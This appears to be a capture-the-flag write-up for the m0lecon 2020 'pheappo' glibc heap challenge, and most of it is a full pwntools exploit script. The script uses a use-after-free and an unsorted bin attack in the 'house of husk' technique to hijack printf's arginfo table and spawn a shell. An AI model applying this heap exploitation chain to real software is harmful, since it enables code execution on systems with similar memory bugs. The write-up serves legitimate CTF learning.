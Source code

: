 ```yaml
---
ctf_name: "m0lecon 2020"
layout: writeup
title:	"pheappo"
date:	2020-11-16
category: "pwn"
author: "NicolaVV"
---
```


### Chall Description

That was a standard heap pwnable with some restrictions:
- Can alloc only chunks with size in range(1040, 38400), which goes to unsorted bin after free
- UAF possible, but not double free because of some additionals checks enforced with the global array `bitmap`
- Can't overwrite malloc_hook and free_hook

To exploit under those conditions I ended up using this known technique which i didn't know the existence of, [house of husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507), pretty cool exploit chain which make use of a very strange printf functionality. Did you know that...

> The GNU C Library lets you define your own custom conversion specifiers? 

No? Well neither did I. Find out more about this at [http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html](http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)

The exploit is mainly an implementation of `house-of-husk` technique so I'm not gonna explain it deeply, since you can find more detailed information in the linked post. I tried to divide the exploit in sections like the post author's did, so it should be easier to follow it. 

Thanks to the organizers for those nice challenges, actually learnt a lot of new stuffs :).

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF("pheappo")
libc = ELF("libc.so.6")

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("challs.ctf.m0lecon.it", 9001)
    else:
        return process([exe.path] + argv, env={'LD_PRELOAD': "./libc.so.6"}, *a, **kw)

def flush():
    return io.recvuntil(b'Choice: ', drop=True)

def create(sz):
    io.sendline(b'1')
    io.recvuntil(b'Size: ')
    io.sendline(f'{sz}'.encode())
    return flush()

def read(idx):
    io.sendline(b'2')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    leak = io.recvuntil(b'<=== Menu ===>', drop=True)
    flush()
    return leak

def write(idx, data):
    io.sendline(b'3')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    io.recvuntil(b'Data: ')
    io.sendline(data)
    return flush()

def delete(idx):
    io.sendline(b'4')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    return flush()

def quit():
    io.sendline(b'5')


if __name__ == "__main__":       
    io = start()
    
    # 1) Leak libc address
    create(1040) # to leak libc_main_arena with UAF
    '''
    2 chunks to achieve relative a overwrite with free
    more on this tecnique @ https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack/
    - briefly, after setting global_max_fast to a big value, every chunk is gonna be treated as a 
    fastbin chunk, so every free is gonna put the chunk in main_arena.fastbinsY[out_of_bound_idx], achieving
    an out of bound write of a heap pointer in the libc
    E.G)
        - size=1040 + 0x10*i writes to main_arena + 528 + i*8
    '''
    get_i = lambda off_from_arena : (off_from_arena - 528) // 8
    create(1040 + 0x10 * get_i(libc.sym.__printf_arginfo_table - libc.sym.main_arena))
    create(1040 + 0x10 * get_i(libc.sym.__printf_function_table - libc.sym.main_arena))

    delete(0)
    chunk0leak = read(0)
    # leak &main_arena.unsortedbin
    libc_mainarena_unsortedbin = u64(chunk0leak[:8])

    libc.address = libc_mainarena_unsortedbin - 2116768
    log.info(f'libc_base: {libc.address:x}')
    onegadget = libc.address + 0x4f322 - 0x1e7000
    log.info(f'one_gadget: 0x{onegadget:x}')

    # forge fake __printf_arginfo_table so that tbl['%d'] = one_gadget
    fake_tbl = flat({ 
        784 : onegadget, # 0x4f322 0x10a38c
    }, filler=b'\x00')

    # 2) Make global_max_fast large with unsorted bin attack
    global_max_fast = libc.address + 2124096
    log.info('Do unsorted bin attack to overwrite global_max_fast...')
    where = global_max_fast-0x10
    write(0, p64(0) + p64(where))
    create(1040)

    # 3) Write the address of a fake arginfo table to __printf_arginfo_table by "relative overwrite"
    log.info('Write chunk1payload_ptr-0x10 to __printf_arginfo_table...')
    write(1, fake_tbl)
    delete(1)

    # 4) Write a non-null value to __printf_function_table by "relative overwrite"
    log.info('Write chunk2payload_ptr-0x10 to __printf_function_table...')
    delete(2)

    # 5) call printf to call onegadget
    log.success("Get shell")
    quit()

    io.interactive()
```
